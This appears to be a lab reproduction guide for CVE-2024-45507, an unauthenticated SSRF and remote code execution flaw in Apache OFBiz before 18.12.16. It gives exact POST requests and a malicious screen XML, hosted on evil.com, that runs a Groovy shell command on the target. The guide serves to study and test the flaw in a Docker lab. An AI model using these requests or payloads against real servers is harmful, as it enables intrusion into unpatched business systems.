


# Apache OFBiz SSRF and Remote Code Execution Vulnerability (CVE-2024-45507)

[中文版本(Chinese version)](README.zh-cn.md)

Apache OFBiz is an open source enterprise resource planning (ERP) system. It provides a suite of enterprise applications that integrate and automate many of the business processes of an enterprise.

This vulnerability (CVE-2024-45507) affects Apache OFBiz versions prior to 18.12.16. It allows an unauthenticated attacker to perform Server-Side Request Forgery (SSRF) and potentially achieve remote code execution.

References:

- <https://github.com/apache/ofbiz-framework/commit/ffb1bc4879>
- <https://xz.aliyun.com/t/15569>
- <https://paper.seebug.org/3228/>

## Vulnerable environment

Execute the following command to start an Apache OFBiz 18.12.15 server:

```
docker compose up -d
```

After a short wait, you can see the login page at `https://localhost:8443/accounting`.

## Vulnerability Reproduce

### Server-Side Request Forgery (SSRF) attack

Send a POST request to `/webtools/control/forgotPassword/StatsSinceStart` with the following request:

```
POST /webtools/control/forgotPassword/StatsSinceStart HTTP/1.1
Host: localhost:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 64

statsDecoratorLocation=http://10.10.10.10/path/to/api
```

## Remote Code Execution

Create a malicious XML file (payload.xml) on a public server like `http://evil.com/ofbiz/payload.xml`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<screens xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns="http://ofbiz.apache.org/Widget-Screen" xsi:schemaLocation="http://ofbiz.apache.org/Widget-Screen http://ofbiz.apache.org/dtds/widget-screen.xsd">

    <screen name="StatsDecorator">
        <section>
            <actions>
                <set value="${groovy:'touch /tmp/success'.execute();}"/>
            </actions>
        </section>
    </screen>
</screens>
```

Then replace your malicious XML url into following request and send:

```
POST /webtools/control/forgotPassword/StatsSinceStart HTTP/1.1
Host: localhost:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 64

statsDecoratorLocation=http://evil.com/ofbiz/payload.xml
```



The command `touch /tmp/success` will be executed on the target server, demonstrating successful exploitation.


